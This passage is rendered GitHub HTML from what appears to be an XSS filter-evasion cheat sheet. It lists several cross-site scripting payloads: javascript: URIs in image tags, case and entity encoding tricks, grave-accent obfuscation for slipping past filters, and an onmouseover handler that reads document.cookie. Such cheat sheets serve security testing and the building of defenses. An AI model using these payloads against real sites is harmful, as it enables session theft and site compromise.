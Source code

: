 </code></pre>
<h2><a id="user-content-image-xss-using-the-javascript-directive" class="anchor" aria-hidden="true" href="#image-xss-using-the-javascript-directive"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Image XSS using the JavaScript directive</h2>
<p>Image XSS using the JavaScript directive (IE7.0 doesn't support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:</p>
<pre><code>&lt;IMG SRC="javascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-no-quotes-and-no-semicolon" class="anchor" aria-hidden="true" href="#no-quotes-and-no-semicolon"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>No quotes and no semicolon</h2>
<pre><code>&lt;IMG SRC=javascript:alert('XSS')&gt;
</code></pre>
<h2><a id="user-content-case-insensitive-xss-attack-vector" class="anchor" aria-hidden="true" href="#case-insensitive-xss-attack-vector"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Case insensitive XSS attack vector</h2>
<pre><code>&lt;IMG SRC=JaVaScRiPt:alert('XSS')&gt;
</code></pre>
<h2><a id="user-content-html-entities" class="anchor" aria-hidden="true" href="#html-entities"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>HTML entities</h2>
<p>The semicolons are required for this to work:</p>
<pre><code>&lt;IMG SRC=javascript:alert(&amp;quot;XSS&amp;quot;)&gt;
</code></pre>
<h2><a id="user-content-grave-accent-obfuscation" class="anchor" aria-hidden="true" href="#grave-accent-obfuscation"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Grave accent obfuscation</h2>
<p>If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string - this is also useful because lots of cross site scripting filters don't know about grave accents:</p>
<pre><code>&lt;IMG SRC=`javascript:alert("RSnake says, 'XSS'")`&gt;
</code></pre>
<h2><a id="user-content-malformed-a-tags" class="anchor" aria-hidden="true" href="#malformed-a-tags"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Malformed A tags</h2>
<p>Skip the HREF attribute and get to the meat of the XXS... Submitted by David Cross ~ Verified on Chrome</p>
<pre><code>\&lt;a onmouseover="alert(document.cookie)"\&gt;xxs link\&lt;/a\&gt;
</code></pre>